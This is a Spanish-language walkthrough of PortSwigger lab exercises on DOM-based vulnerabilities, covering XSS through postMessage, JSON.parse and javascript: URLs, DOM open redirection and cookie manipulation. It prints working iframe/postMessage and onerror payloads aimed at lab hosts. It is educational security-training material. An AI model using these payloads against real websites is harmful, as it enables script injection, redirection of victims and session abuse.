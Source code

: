 # DOM-based vulnerabilities

## Lab: DOM XSS using web messages

### Enunciado

Este laboratorio demuestra una vulnerabilidad sencilla de mensajes web. Usa el servidor de exploits para enviar un mensaje al sitio objetivo que provoque la ejecución de la función `print()`.

### Resolución

Vemos el código fuente y vemos una función **innerHTML** asigna directamente el contenido al elemento **div** con id **ads**.\
Si **e.data** contiene código HTML o JavaScript, **el navegador lo interpretará y ejecutará**.

Además, **observamos que la respuesta no incluye la cabecera `x-frame-options`:**

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Esto permite **incrustar el sitio en un iframe**.

{% embed url="https://developer.mozilla.org/es/docs/Web/API/Window/postMessage" %}

**Con esa base, podemos crear un HTML malicioso como este:**

```html
<iframe src="https://0a5e00ac04903464809e034d00d300ba.web-security-academy.net/" 
        onload="this.contentWindow.postMessage('<img src=1 onerror=alert(XSS)>','*')">
</iframe>
```

Pero para **resolver el laboratorio**, usaremos el payload que dispara **print():**

```html
<iframe src="https://0a5e00ac04903464809e034d00d300ba.web-security-academy.net/" 
        onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
</iframe>
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM XSS using web messages and a JavaScript URL

### Enunciado

Este laboratorio demuestra una vulnerabilidad de redirección basada en el DOM que se activa mediante web messaging. Crea una página HTML en el servidor de exploits que aproveche esta vulnerabilidad y que ejecute la función `print()`.

### Resolución

Vemos el código fuente.&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En este caso, **el procesamiento del web message es vulnerable a XSS basado en DOM**, porque **el event listener no valida correctamente el origen de los mensajes recibidos ni las propiedades y funciones que usa.**

Además, **identificamos un&#x20;**_**sink**_**&#x20;peligroso** `location.href`que permite redirigir a otra página. Sin embargo, **antes de hacer la redirección**, el código verifica que los datos del mensaje contengan **http:** o **https.**

**Con esta información, podemos preparar un HTML malicioso** que use un `<iframe>` y la función **postMessage()** para enviar datos al listener vulnerable en la página objetivo:

```html
<html>
  <body>
    <iframe src="https://0a2b0071046a9d6681aec51300f90043.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*');"></iframe>
  </body>
</html>
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM XSS using web messages and `JSON.parse`

### Enunciado

Este laboratorio utiliza web messaging y analiza el mensaje como JSON. Crea una página HTML en el servidor de exploits que aproveche esta vulnerabilidad y ejecute la función `print()`.

### Resolución

Vemos el código fuente.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En este caso, **hay un event listener que recibe mensajes web y los interpreta como datos JSON usando `JSON.parse`**. El problema es que **el listener no valida correctamente el origen del mensaje**, por lo que acepta cualquier entrada.

Dentro del código, hay un `switch` con un caso llamado **`load-channel`**, que **cambia el atributo `src` de un elemento `<iframe>`**. Esto convierte ese atributo en un **sink peligroso**.

Con esta información, podemos **crear un HTML malicioso con un `<iframe>`** y usar `postMessage()` para enviar un mensaje manipulado al listener vulnerable.\
El listener tomará el contenido y lo pasará al sink en la página principal:

```javascript
postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}", "*")
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Creamos el siguiente paylaod.

```
<html>
    <body>
        <iframe src="https://0ae200cd04519f0c824b014900eb0008.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}","*");'></iframe>
    </body>
</html>
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM-based open redirection

### Enunciado

Este laboratorio contiene una vulnerabilidad de redirección abierta basada en DOM (DOM-based open-redirection). Exploita esta vulnerabilidad y redirige a la víctima hacia el servidor de exploits.

### Resolución

Vemos el código fuente de los post.

<figure><img src="../../.gitbook/assets/image (1505).png" alt=""><figcaption></figcaption></figure>

Verifica si el objeto **location** contiene **url=**[**http://loquesea.com**](http://loquesea.com) o **url=**[**https://loquesea.com**](https://loquesea.com). Si encuentra ese parámetro, **asigna el valor a `location.href`** para redirigir a esa dirección.

<figure><img src="../../.gitbook/assets/image (1506).png" alt=""><figcaption></figcaption></figure>

Es **vulnerable a redirección abierta basada en DOM**.

Para **explotarla**, podemos **añadir el payload como parámetro GET**:

```
/post?postId=9&url=https://exploit-0a6200ff03db6e4e8148c45501ce0070.exploit-server.net/
```

Así, **forzamos la redirección** a nuestro servidor de exploits.

<figure><img src="../../.gitbook/assets/image (1508).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1507).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM-based cookie manipulation

### Enunciado

Este laboratorio demuestra una manipulación de cookies en el lado del cliente basada en DOM. Inyecta una cookie que provoque un ataque XSS en otra página y ejecute la función `print()`. Para ello, deberás usar el servidor de exploits para redirigir a la víctima a las páginas correctas.

### Resolución

Vemos el código fuente de los productos.

<figure><img src="../../.gitbook/assets/image (1509).png" alt=""><figcaption></figcaption></figure>

Aquí vemos que hay un **sink peligroso**: `document.cookie`. La **fuente** de datos (input controlado por el atacante) es **`window.location`**.

Esto significa que **se establecerá una nueva cookie** llamada `lastViewdProduct`, **usando como valor la propiedad `window.location`**.

Refrescamos la página.

<figure><img src="../../.gitbook/assets/image (1510).png" alt=""><figcaption></figcaption></figure>

Cuando actualizamos la página, **se genera dinámicamente un nuevo enlace `<a>`** con el atributo **href** igual a **`window.location`**.

Esto significa que **podemos inyectar código malicioso en la URL**.

```
/product?productId=1&payload='><img src=errorpls onerror="print()">
```

Al incluir este payload, **cerramos el atributo href y añadimos un elemento `<img>` con un evento `onerror` que ejecuta `print()`.**

<figure><img src="../../.gitbook/assets/image (1511).png" alt=""><figcaption></figcaption></figure>

Refrescamos la página.

<figure><img src="../../.gitbook/assets/image (1512).png" alt=""><figcaption></figcaption></figure>

Sabiendo esto ya podemos crear el payload HTML.

```
<html>
    <body>
        <iframe src="https://0af7002804ccb93881db16ef001d00b0.web-security-academy.net/product?productId=1&payload=%27%3E%3Cimg%20src%3Derrorpls%20onerror%3D%22print%28%29%22%3E" onload="if(!window.triggerXSSPayload)this.src='https://0af7002804ccb93881db16ef001d00b0.web-security-academy.net';window.triggerXSSPayload=1;"></iframe>
    </body>
</html>
```

Este **payload** generará un **elemento `<iframe>`** apuntando a nuestra URL con el payload que establece la cookie. Cuando se cargue, **verificamos si se activó el XSS**.

Si **no se dispara**, entonces **cambiamos el atributo `src` del `<iframe>`** para que apunte a la **página principal del sitio vulnerable**.

De este modo, **forzamos a que se cargue la cookie inyectada y se ejecute el payload XSS.**

<figure><img src="../../.gitbook/assets/image (1513).png" alt=""><figcaption></figcaption></figure>
